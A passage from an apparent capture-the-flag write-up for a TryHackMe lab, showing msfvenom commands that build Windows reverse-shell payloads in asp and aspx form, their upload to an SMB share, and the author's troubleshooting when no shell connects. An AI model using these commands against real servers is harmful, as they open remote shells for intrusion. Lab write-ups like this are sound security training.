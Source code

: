 We have a possible way of attacking this machine, we need a payload we can upload to get ourselves a reverse shell. Let's find out how to create an `asp` payload with **msfvenom**.

```sh
┌──(kali㉿kali)-[~/Documents/THM/relevant]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 -f asp > tzshell.asp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of asp file: 38397 bytes
```

Now just like we did with `proof.txt` we upload the `tzshell.asp` file to the share:

`smb: \> put tzshell.asp putting file tzshell.asp as \tzshell.asp (18.9 kb/s) (average 11.7 kb/s)`

Let's open a listener on port `4444` and then try to load that file in the browser:

![We don't have luck this time](https://i.imgur.com/h8UyUwU.png)

We get an error and our listener does not pick any connection. Probably our payload was not good.

If we research a bit around MS IIS to see if maybe we can generate a payload in another format. We found out that we could try another format `.aspx` and craft a new payload with it.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 -f aspx > tzshell.aspx `

I went ahead and uploaded it to the share. Let's see if this works now.

> Remember to ready the listener if you closed it before.

It did not work either. This time the page did not throw any error, just loaded a blank page. However, we did not get any reverse shell.
Time to think about this a bit more, what I'm doing wrong?

- Could still be a payload issue? yup, probably.

Or maybe the problem is actually the way we are trying to access the payload... the fact that our `proof.txt` file can be accessed via the browser might not actually indicate that we can execute our `tzshell.aspx` via the browser too. 

I ended up trying `wget`ing the file (wtf I'm doing), and `curl`, neither worked. I think we definitely have a bad payload...

![](https://i.imgur.com/O7kZwJr.png)


I need to invest a bit more time with **msfvenom** and see another way of creating an **aspx** file. I suspect I'm doing something wrong when generating it.
Googling around I found a clue, and I had to do with how I generated the payload.

> Check the related post on ASP payload generation I mentioned [here](https://isc.sans.edu/forums/diary/Analyzing+Metasploit+ASP+NET+Payloads/26392/)
> Though it talks about meterpreter payload, I'm sticking to a plain shell for now.

Let's see what generated before: `msfvenom -p windows/shell_reverse_tcp LHOST=10.13.0.34 LPORT=4444 -f asp > tzshell.asp`
